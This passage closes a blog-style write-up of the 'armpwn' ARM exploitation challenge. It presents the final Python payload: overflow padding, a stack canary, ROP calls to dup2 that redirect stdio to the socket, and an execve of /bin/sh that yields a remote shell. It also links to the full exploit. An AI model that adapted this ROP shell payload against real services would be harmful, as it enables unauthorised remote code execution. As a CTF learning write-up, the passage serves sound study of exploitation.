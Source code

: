 Which makes the final payload quite clear:

```python
saved_regs  = "BBBB"*9
payload = "A"*4042 + canary + saved_regs
payload+= rop_call(dup2, 4, 2)
payload+= rop_call(dup2, 4, 1)
payload+= rop_call(dup2, 4, 0)
payload+= rop_call(execve, binsh, 0, 0)
```

You may notice that I also call `dup2()` thrice to redirect stdin/stdout/stderr
directly to the socket (which presumably holds the file description #4).

Now run it, enjoy the shell and a good coffee ☕

{{ img(src="https://i.imgur.com/uzlxQx8.png" title="armpwn") }}

The complete exploit code can be found
[here](https://gist.github.com/hugsy/45d1c23f33f09126fe0838c1fe057687).

# Final notes

Thanks to {{ twitter(user="5aelo") }} for this fun
challenge. It is a good way to get acquainted with
ARM exploitation, and is one of the reason why I build
[`gef`](https://github.com/hugsy/gef.git) in a first
place, i.e. having a good exploitation environment over `gdb` on any
architecture it is supporting.

